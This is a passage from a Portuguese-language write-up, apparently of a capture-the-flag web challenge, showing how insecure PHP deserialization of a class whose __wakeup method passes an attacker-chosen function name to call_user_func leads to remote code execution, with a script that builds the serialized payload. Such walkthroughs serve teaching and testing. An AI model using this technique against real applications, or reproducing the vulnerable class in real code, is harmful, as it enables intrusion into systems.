 Deu certo, bom agora vamos ver o que podemos fazer com isso, usar funções para ler arquivos (LFI), rodar funções de sistema? Não pois elas estão sendo checadas na nossa payload, então o que vamos fazer?

Lembram do comentário na função wakeup da classe?

O que vamos ter que fazer é uma desseralização insegura!

# Exploitation 
## RCE

[Deserialization](https://book.hacktricks.xyz/pentesting-web/deserialization)

Recomendo quem não souber do que se trata dar uma pesquisada em alguns artigos.

Aqui vai o código da classe vulnerável:

```php
Class UHCProtocol{
    public $data;
    public function __wakeup(){
    $this->add();
    }
    public function add(){
        return call_user_func($this->data, $_SERVER['QUERY_STRING']);
    }
}
```

Observem a função wakeup, ela é uma função que recebe o nome de função mágica. Toda vez que no php um objeto é desserealizado essa função é chamada.

Nessa classe a função wakeup está executando a função add() que por sua vez tem um call_user_func que recebe os valores $data e os valores contidos na query do request (http://website.com/index.php?this-is=a-query).

O valor de $data vai ser o nome da função que o call_user_func vai executar e os calores da query serão os argumentos...

Ok, temos o código vulnerável a desserealização, mas onde tem um objeto para ser desserealizado?

Simples! Se lembram do nosso "poder" de executar funções com o nosso body malicioso no request PUT? Vamos um "unserealize" com os argumentos sendo um objeto modificado por nós.

Esse objeto modificado terá que ter o nome da função que iremos rodar com o valor de $data, portanto vamos apenas escrever um script para serializar uma classe modificada.

```php
<?php
Class UHCProtocol{
    public $data = "print_r";
    public function __wakeup(){
    $this->add();
    }
    public function add(){
        return call_user_func($this->data, $_SERVER['QUERY_STRING']);
    }
}
$object = new UHCProtocol();
echo serialize($object);
?>
```
